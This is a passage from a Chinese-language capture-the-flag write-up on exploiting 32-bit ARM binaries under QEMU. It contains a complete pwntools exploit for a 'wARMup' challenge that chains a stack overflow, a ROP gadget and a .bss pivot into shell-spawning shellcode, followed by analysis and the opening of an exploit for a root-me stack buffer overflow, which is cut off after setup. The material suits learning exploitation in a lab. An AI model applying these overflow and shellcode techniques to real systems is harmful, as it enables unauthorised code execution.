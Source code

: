 > 迁移完，要Shellcode 前面加个地址跳转

```python
from pwn import *
import sys
context.binary = "./wARMup"
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./wARMup"])
else:
    p = process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabihf", "./wARMup"])

elf = ELF("./wARMup")
libc = ELF("/usr/arm-linux-gnueabihf/lib/libc.so.6")

padding = 100#104
pop_r3_pc = 0x00010364
main_read = 0x00010530

# payload = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"
payload = padding*'a'+p32(elf.bss()+0x100)
payload += p32(pop_r3_pc)+p32(elf.bss()+0x100)+p32(main_read)
shellcode = asm(shellcraft.sh())

p.recvuntil("!\n")
p.send(payload)
sleep(0.5)
p.send(p32(elf.bss()+0x100+0x4)+shellcode)

p.interactive()
```

## root_me_stack_buffer_overflow_basic

### 基本情况

32 位动态链接 arm 程序，存在 scanf 函数溢出，程序自身泄露栈地址。

程序功能是可以重复向局部变量上写入，由于输入函数采用 scanf 长度被我们所控制。

思路是先获取程序泄露的栈地址，然后写入 shellcode 控制 pc 跳转执行。这里用 cycli 测出来的 padding 是 0x50 ，实际调试发现需要填充 0x54 ，0x50-0x54 被填充在 r11 (fp) 。

### EXP

```python
from pwn import *
import sys
context.binary = "./root_me_stack_buffer_overflow_basic"
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./root_me_stack_buffer_overflow_basic"])
else:
    p = process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabihf", "./root_me_stack_buffer_overflow_basic"])

```